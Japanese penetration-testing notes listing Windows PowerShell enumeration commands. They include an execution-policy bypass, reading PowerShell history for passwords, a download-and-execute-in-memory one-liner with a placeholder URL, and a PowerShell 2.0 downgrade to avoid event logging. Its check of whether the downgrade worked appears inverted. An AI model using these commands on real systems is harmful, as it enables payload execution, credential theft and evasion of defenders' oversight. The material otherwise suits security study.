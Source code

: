 その他、使えるコマンド
### Windows
Powershell上で実行
#### 基本的な列挙

| **コマンド**                                                                                   | **結果**                                                                                 |
| ------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------- |
| hostname                                                                                   | PCの名前を表示する                                                                             |
| [System.Environment]::OSVersion.Version                                                    | OSのバージョンとリビジョンレベルを表示する                                                                 |
| wmic qfe get Caption,Description,HotFixID,InstalledOn                                      | ホストに適用されているパッチやホットフィックスの一覧を表示する                                                        |
| ipconfig /all                                                                              | ネットワークアダプターの状態と構成を表示する                                                                 |
| set                                                                                        | 現在のセッションでの環境変数一覧を表示する（CMDプロンプトから実行）                                                    |
| echo %USERDOMAIN%                                                                          | ホストが所属しているドメイン名を表示する（CMDプロンプトから実行）                                                     |
| echo %logonserver%                                                                         | ホストがチェックインしているドメインコントローラーの名前を表示する（CMDプロンプトから実行）                                        |
| **systeminfo**                                                                             | 上のコマンド達の結果をこのコマンドで表示できる                                                                |
| Get-Module                                                                                 | 使用可能な（ロードされている）モジュールの一覧を表示                                                             |
| Get-ExecutionPolicy -List                                                                  | ホスト上の各スコープごとの実行ポリシー設定を表示                                                               |
| Set-ExecutionPolicy Bypass -Scope Process                                                  | -Scope パラメータを使用して、現在のプロセスだけに実行ポリシーを一時的に変更する。このプロセスを終了すると元に戻るため、ホストに恒久的な変更を加えずに済む       |
| `Get-ChildItem Env:\| ft Key,Value`                                                        | 環境変数（キーと値のペア）を一覧表示し、パス、ユーザー名、コンピュータ情報などを取得                                             |
| Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt   | 特定ユーザーのPowerShellコマンド履歴を取得します。この履歴にはパスワードや、パスワードが含まれる設定ファイル／スクリプトの手がかりがある場合もあるため、有用です。 |
| powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('ダウンロード元のURL'); <続くコマンド>" | Web上からファイルをダウンロードして、メモリ上で実行するためのシンプルかつ迅速な方法です。                                         |
#### 運用上のセキュリティ戦術

Powershellのダウングレード
- ディフェンス側は、1台のホストに複数バージョンのPowerShellが存在している可能性があることに気づいていないことがある
	- アンインストールされていなければ、古いバージョンも依然として使用可能
	- PowerShellの**イベントログ記録機能は、PowerShell 3.0以降で導入された**機能
	- 逆に、PowerShell 2.0以前のバージョンを呼び出すことができれば、そのシェル上での操作はEvent Viewer（イベントビューア）に記録されない
	- **ディフェンダーの監視の目をかいくぐる**ための優れた方法の一つ
Powershellをダウングレードするコマンド
```sh
powershell.exe -version 2
```

本当にダウングレードできているのか
- ダウングレードする前とダウングレードした後に`Get-Host`コマンドを打って、出力結果の`Version`の部分を見る
- ダウングレードした後のVersionが2.0になっていなければOK

本当にログが記録されていないか
- PowerShell Operationalログ
	- 場所：`Applications and Services Logs > Microsoft > Windows > PowerShell > Operational`
